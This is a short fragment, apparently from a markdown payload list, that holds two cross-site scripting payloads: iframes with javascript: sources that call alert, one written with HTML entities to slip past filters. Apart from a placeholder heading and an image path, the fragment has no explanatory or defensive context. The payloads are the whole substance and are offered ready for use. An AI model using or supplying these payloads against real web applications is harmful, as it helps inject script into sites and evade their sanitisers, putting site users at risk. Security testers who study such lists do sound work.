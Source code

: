 #### yyy Payload List :

```

<IFRAME SRC="javascript:alert('1');"></IFRAME>
<iframe src=javascript&colon;alert&lpar;document&period;domain&rpar;>

















